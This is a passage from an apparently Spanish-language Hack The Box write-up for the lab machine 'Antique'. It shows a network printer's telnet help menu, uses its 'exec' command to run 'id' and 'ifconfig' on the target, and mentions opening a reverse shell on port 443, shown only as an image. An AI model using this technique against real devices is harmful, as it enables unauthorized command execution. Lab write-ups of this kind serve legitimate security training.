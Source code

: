 ```bash
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```
Listando la ayuda de la sesión en telnet nos percatamos de la opción de poder ejecutar el comando `exec`. Probamos ejecutando un par de comandos

```bash
> exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
> exec ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.107  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 fe80::250:56ff:fe96:387  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:fe96:387  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:96:03:87  txqueuelen 1000  (Ethernet)
        RX packets 136070  bytes 8691510 (8.6 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 132474  bytes 7181043 (7.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 22  bytes 1936 (1.9 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 22  bytes 1936 (1.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Nos ponemos en escucha en el puerto 443 y ejecutamos el comando en bash para entablarnos una reverse shell con la máquina víctima

<img src="/assets/HTB/Antique/revshell.png">
